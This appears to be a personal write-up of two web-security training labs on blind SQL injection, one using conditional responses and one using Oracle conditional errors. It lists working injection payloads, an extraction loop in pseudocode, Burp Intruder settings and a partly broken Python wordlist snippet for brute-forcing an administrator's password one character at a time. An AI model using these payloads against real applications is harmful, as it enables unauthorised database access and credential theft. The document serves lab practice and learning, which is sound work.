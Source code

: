 # Blind SQL injection

Blind sql injection arises when an application vulnerable to SQL injection without returning the relevant result from SQL query.

## Lab: Blind SQL injection with conditional responses


Example SQL query:
```
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'
``` 
Example injected SQL query with `' AND '1'='1`:

```

SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4[' AND '1'='1]'
```

Steps:
1. Identify page length with and without "Welcome back!" message

```
' AND '1'='1
' AND '1'='2 
```
3. Determine password length

```
' AND (SELECT 'a' FROM users WHERE username = 'administrator' AND LENGTH(password) > 8) = 'a
' AND (SELECT 'a' FROM users WHERE username = 'administrator' AND LENGTH(password) < 21) = 'a
```

5. Extract the password

```
' AND SUBSTRING((SELECT password FROM users WHERE username = 'administrator'),1,1) = 'a
```

Pseudo:
```
index = 1 
while True:
	for char in chars:
	cookies = {
		"TrackingId" : "' AND SUBSTRING((SELECT password FROM users WHERE
		username 'administrator'),{index},1) = '{char}'"
	}
	resp = requests.get(url, cookies)
	if resp contains "welcome":
		password += char
		index += 1
		
```
Automated script in the scripts folder.

## Lab: Blind SQL injection with conditional errors

Steps:
1. Determine the database version

```
TrackingId=abc' ORDER BY 1 --
TrackingId=abc' UNION SELECT banner FROM v$version --
```

2. Although there's no difference in query result beside internal error which means injection failed, I will keep the whole TrackingId for consistency.

Returns no error:
```
TrackingId=abc' AND (SELECT CASE WHEN (1=2) THEN to_char(1/0) ELSE 'a' END FROM dual) = 'a 
```

Returns error:
```
TrackingId=abc' AND (SELECT CASE WHEN (1=1) THEN to_char(1/0) ELSE 'a' END FROM dual) = 'a

' AND (SELECT CASE WHEN (SUBSTR('administrator',1,1)='b') THEN to_char(1/0) ELSE 'a' END FROM dual) = 'a
```

3. This third step just me figuring out how the oracle query works.
```
# return errors
# means it's false, password not started with A.
' AND (SELECT CASE WHEN (SUBSTR((SELECT password FROM users where username='administrator'),1,1)='A') THEN to_char(1/0) ELSE 'a' END FROM dual) = 'a
```

4. Determine password length
```
Returns error (TRUE that password length is lower than 21):
' AND (SELECT CASE WHEN ((SELECT LENGTH(password) FROM users WHERE username='administrator') < 21) THEN to_char(1/0) ELSE 'a' END FROM dual) = 'a

Returns error (TRUE that password length is greater than 8):
' AND (SELECT CASE WHEN (LENGTH(SELECT password FROM users WHERE username='Administrator') > 8) THEN to_char(1/0) ELSE 'a' END FROM dual) = 'a
```

5. Brute force.

```
' AND (SELECT CASE WHEN (SUBSTR((SELECT password FROM users WHERE username='administrator'),§P1§,1) = '§P2§') THEN to_char(1/0) ELSE 'a' END FROM dual) = 'a
```

**With Burpsuite Intruder:**

P1 = Index = 1-21
P2 = Chars = 0-9+a-z+A-Z

Create wordlist using python

```python
import string

p1=list(range(1,21)) # [1,2,3...,19, 20]
p2=string.digits+string.ascii_letters # [012..abc..XYZ]

# Payload for p1
for i in range p1:
	print(i)

for c in range p2:
	print(c)
```

Paste wordlist to Burpsuite intruder, use P1 in payload 1, P2 in payload 2.

**Using my multithread script (took less than 5 minutes):**

 https://gist.github.com/fahmifj/13d055117f729a233a8f4ccbefdb1680

